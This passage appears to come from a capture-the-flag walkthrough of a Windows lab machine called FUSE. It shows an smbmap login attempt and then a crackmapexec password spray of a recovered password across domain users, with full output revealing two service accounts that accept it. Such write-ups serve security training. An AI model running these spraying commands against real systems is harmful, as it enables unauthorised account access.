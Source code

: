 There’s a share there and a password.

### Find user

On first reading, I figured that the user for the share might be scan2docs, but that doesn’t work:

```

root@kali# smbmap -H 10.10.10.193 -u scan2docs -p '$fab@s3Rv1ce$1'
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.193
[!] Authentication error on 10.10.10.193

```

At this point, I want to see what other users might use this password. `crackmapexec` will do the trick:

```

root@kali# crackmapexec smb 10.10.10.193 -u users -p '$fab@s3Rv1ce$1' --continue-on-success
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 

```
